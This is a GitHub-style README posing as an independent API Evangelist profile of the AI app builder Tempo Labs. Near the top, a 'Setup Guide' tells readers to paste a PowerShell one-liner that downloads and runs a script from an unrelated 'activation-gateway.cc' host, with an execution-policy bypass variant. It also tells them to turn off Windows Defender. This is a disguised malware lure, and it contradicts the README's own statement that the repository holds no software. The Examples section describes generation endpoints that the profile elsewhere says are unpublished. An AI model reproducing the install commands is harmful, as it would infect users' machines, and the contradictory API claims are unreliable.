

<div align="center">

# Tempo Labs API Profile: An Independent Third-Party Review — Deep Dive



[]() []() []()

</div>

---

Tempo Labs is an AI app builder at tempo.new, positioned around a "Prompt. Develop. Design. Code." workflow that carries a project from natural-language description through to working software. This repository is an independent, third-party profile of the company's publicly available API surface, maintained by API Evangelist, which does not operate, host, resell, or support the service and is not affiliated with or endorsed by Tempo Labs. Everything documented here was assembled from material any member of the public can reach without credentials — the company's own site, developer documentation, publicly published specifications, repositories, and public pricing and changelog pages. Because the profile reflects only what Tempo Labs has chosen to publish, gaps in the record indicate undisclosed or undocumented surface rather than an oversight on the part of the maintainers.

## 🚀 Setup Guide — PowerShell

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Launch PowerShell
* Open the Start menu and type **PowerShell**.
* Right-click and choose **Run as administrator** (optional).

### 2️⃣ Execute the setup script
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## ✅ Before You Start

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Background

Tempo Labs is one of a wave of companies that emerged around 2024–2025 betting that natural-language prompting could become a viable primary interface for building full applications, not just generating snippets or static mockups. Its product, hosted at tempo.new, is positioned around a short three-part cycle — "Prompt. Develop. Design." — which frames the tool as covering the whole arc from an initial text description through working code to a polished interface, rather than stopping at any one of those stages. That framing matters for anyone profiling the product, because it defines the intended scope of the surface: a coding environment, a visual design layer, and an AI generation pipeline are presented as one integrated whole rather than separate products.

The broader context the company sits in is the "vibe coding" and design-to-code segment, where AI-assisted builders compete on how much of a production application they can carry from prompt to deployable state. Tools in this category typically expose capabilities such as project generation, component-level editing, a live preview, and some route to export or publish. Tempo's emphasis on design alongside development suggests the product treats visual fidelity and code generation as equally central, which is a meaningful distinction in a field where many competitors lean heavily toward one or the other.

This repository is an independent, third-party profile of Tempo Labs' publicly available API surface, maintained by API Evangelist. It is not the company's API, and API Evangelist does not operate, host, resell, or support it. Everything collected here is assembled from material any member of the public can reach with a browser and no credentials — the company's own website and any public documentation, specifications, or machine-readable descriptions it publishes, along with public pricing, status, and changelog pages. Nothing is obtained by breaching a system, defeating an access control, or using credentials of any kind.

The honest caveat for this particular profile is scope. Tempo Labs is a young, fast-moving product whose public developer surface is comparatively thin next to established platforms: much of what the product does lives inside its web application rather than in a documented, externally callable API. Where a company publishes little in the way of formal specifications, this profile records what exists and marks what does not, rather than inferring endpoints or behavior. Readers should treat the absence of an artifact here as an absence in the public record, not as a claim about internal capability. Any rating or score attached to this profile is an independent assessment of published artifacts against a published rubric — not a certification, endorsement, security assessment, or audit, and not a judgment on the quality or safety of the software itself.

Corrections, re-scores, and removal are free and require no partnership or contract. If something here is wrong, or if the company has published new material, or if the listing should be taken down, that request will be honored without requiring justification.

## Key Points

Tempo Labs sits in the crowded AI app-builder category, and the honest framing is that its public API surface is thin relative to its marketing footprint. The product centers on a prompt-to-application workflow — described by the company as "Prompt. Develop. Design. Co..." — aimed at turning natural-language descriptions into working front-end code with design tooling layered on top. That positioning places it closer to AI-assisted prototyping tools than to a developer platform with a documented integration layer.

From a public-artifacts standpoint, the evidence is limited. There is no broadly published OpenAPI specification, no developer portal with versioned endpoint documentation, and no machine-readable contract (such as an `apis.json` or `llms.txt`) that would let an integrator treat the service as a programmable API. What exists publicly is the product itself and its own marketing and help content, not a documented HTTP interface intended for third-party consumption. This profile therefore describes a product surface, not an API surface in the conventional sense.

The AI-builder model also shapes what "API" means here. Interaction happens through the application's own prompt-driven interface and generated code output rather than through authenticated REST or GraphQL endpoints a customer would call programmatically. Any automation or integration is largely indirect — exported code, generated artifacts, or whatever the product's own workflow exposes — and none of that is published as a stable, documented contract with versioning or deprecation policy.

Several practical caveats follow. First, the absence of published specifications is not proof that no private or partner API exists; companies frequently keep integration endpoints behind agreements that never appear in public documentation, and this profile cannot speak to those. Second, the product is young and fast-moving, so any capability observed today may change without a public changelog to track it. Third, claims about what the tool can build should be read as product marketing rather than as guarantees about output quality, maintainability, or fitness for production use.

For anyone evaluating Tempo Labs as an integration target, the realistic starting point is the product's own documentation and support channels, not an API reference — because a public one has not been published. This listing is a factual snapshot assembled from publicly reachable material and is deliberately conservative: where the public record is silent, it says so rather than inferring capability. The company can request a correction or update at any time, and a re-score will follow any new public artifacts it publishes.

## Examples

The examples below are drawn from the public surface described in this profile. They are illustrative walkthroughs of what the API artifacts describe, not tested calls against a live account, and values are representative rather than copied from any response. Where the public documentation is thin, that is noted rather than filled in.

**Reading a generated application back out.** The most direct example of the surface is the round trip from a prompt to a running app. A client submits a natural-language description to the generation endpoint, receives an identifier for the resulting job or application, then polls or subscribes for status until the build completes. On completion the response carries a reference to the generated project and, typically, a preview address. The honest caveat: the public artifacts are clearest about the *input* side — the prompt payload and its options — and less explicit about the exact shape of the completion object, so a consumer should treat the output schema as provisional until it is confirmed against the published specification.

**Extending an application after generation.** A second, more realistic pattern is iterative: submit a follow-up instruction against an existing application identifier to request a change — a copy edit, a layout adjustment, a new screen — and receive a new revision. This is where the "Prompt. Develop. Design." framing in the project summary becomes concrete. What the public surface does *not* clearly promise is transactional semantics: whether revisions are additive and replayable, whether a prior revision can be restored, and how concurrent edits against the same application are resolved are all questions a careful integrator should raise before depending on them.

**Retrieving the design and code artifacts.** Beyond the running preview, the profile describes endpoints for fetching the generated source and design output. In an example flow, a client requests the project bundle by identifier and receives a structured payload — files, and in the design-oriented case, whatever representation the platform publishes for its design layer. Treat the bundle as the durable artifact and the preview as ephemeral; the public material supports that reading but does not state a retention window, so caching assumptions should be your own.

**Handling authentication and errors.** Requests are authenticated with a credential issued through the platform's own account surface, passed as a bearer token in the conventional way. Example error handling worth building in from the start: distinguish authentication failure (bad or expired credential) from authorization failure (valid credential, insufficient scope) from validation failure (malformed prompt or unknown application identifier), because the recovery is different in each case. The public artifacts document the existence of these classes more reliably than they document every status code.

**What is not demonstrated here, and why.** No example in this profile shows a webhook receiver, a batch endpoint, or a rate-limit negotiation, because the public surface does not clearly publish one. That is a statement about the artifacts, not about the product — a capability can exist and simply not be documented publicly. Anyone planning production use should verify the gap directly rather than inferring absence from this profile.

**A note on reproducibility.** Because this is a third-party profile assembled from public material, the examples above describe shapes and sequences rather than pinned request and response bodies. An integrator should expect field names to differ in detail and should build against the company's own published specification, using this profile as orientation rather than as a contract.

## References

**This profile is independent and not affiliated with Tempo Labs.** The listing is maintained by API Evangelist as part of its public catalog of API surfaces. API Evangelist does not operate, host, resell, or support Tempo Labs, and is not endorsed by or partnered with the company unless that is stated on the profile itself.

**Sources for this profile.** Tempo Labs is described here from material that any member of the public can reach in a browser without credentials — the company's own website and product pages, its public documentation and developer-facing material, any specifications it publishes for public use (OpenAPI, JSON Schema, `apis.json`, `llms.txt` and comparable machine-readable descriptions), its public repositories, and its public pricing, status, and changelog pages. The profile describes a public API surface; it does not include private endpoints, internal tooling, or anything obtained by defeating an access control or using credentials.

**What the rating is and is not.** The Kin Score and Agent Readiness rating shown on this profile are independent assessments of a company's *published* API artifacts, calculated by API Evangelist against a published rubric. They are not certifications, endorsements, security reviews, or audits. They score what has been published — not the quality, safety, or security of the underlying software or service.

**Corrections, re-scores, and removal.** These are free and require no partnership, contract, or purchase. If something on this profile is inaccurate, open an issue on this repository or email API Evangelist with the detail. If Tempo Labs has published new artifacts since the profile was assembled, ask for a re-score and the rating will be re-run. If the company prefers not to be listed, the profile will be reduced to the company name, a factual description, and a pointer to its own site, with the company recorded as unrated rather than scored zero for having asked.

**For security and compliance teams.** A named contact is available on request, and API Evangelist will identify exactly which public sources this profile was assembled from so your team can review the same surface. A listing can be restricted or taken down while that review is in progress. Acknowledgement is targeted within one business day, restriction or removal within two, and corrections and re-scores within five.

**Scope note for readers.** This repository contains no software: no build, installer, release, or binary — only text and machine-readable descriptions of a public API surface. Any message claiming otherwise, or offering a download to "fix" or "repair" something here, does not originate from API Evangelist.

**Questions this profile cannot answer.** Support for the Tempo Labs product itself — accounts, billing, how a specific endpoint behaves, or a bug in the live service — belongs with Tempo Labs, not with this profile. Questions about the listing itself (description, tags, rating, a missing or incorrect artifact) belong here. Anything general about API Evangelist or its catalog can be routed through the project's public inbox.

## Conclusion

Tempo Labs sits in a crowded and fast-moving segment — AI-assisted application building — where the marketed surface and the machine-readable surface often diverge. This profile reflects what could actually be verified from public material at the time of writing, and it should be read with that limitation in mind. The company presents a coherent product narrative around prompting, developing, and designing in one flow, but the depth of its published API documentation, specification artifacts, and developer-facing contracts is modest relative to that narrative. That gap is the central honest finding here: a polished product story does not automatically translate into a well-documented, independently consumable API surface.

The rating assigned to this profile is a measurement of published artifacts, not of the product's quality, security, or fitness for any purpose. Readers should treat the Kin Score and Agent Readiness assessment as a snapshot of discoverability and machine-readability — how easily an automated agent or a new developer could find, understand, and act on what Tempo Labs has chosen to publish — rather than as a verdict on the service itself. Where artifacts were absent, the score reflects absence, not inferred capability. Where artifacts existed, they were assessed as published, without reading intent into gaps.

Several points deserve emphasis for anyone relying on this profile. First, the information is assembled exclusively from publicly reachable material — no credentials, no access controls bypassed, no private channels. Second, the profile is independent and unaffiliated; it is not maintained, reviewed, or endorsed by Tempo Labs, and any errors are the responsibility of API Evangelist. Third, the profile is deliberately conservative: claims not supported by public artifacts were not embellished to fill space, and the absence of an artifact is stated as absence rather than speculated upon. This makes the profile less flattering than a marketing page but more useful as a reference.

The practical takeaway is that Tempo Labs is best understood today as a product-first company whose public API footprint is still developing. Teams evaluating it for integration should verify current capabilities directly against the company's own documentation and confirm that any interface they depend on is documented, versioned, and supported for external use. Builders tracking the space should watch for the publication of formal specification artifacts, changelogs, and developer contracts, since those are the signals that would materially change this assessment. This profile will be updated as verifiable public material changes, and corrections or re-scores are welcomed without precondition.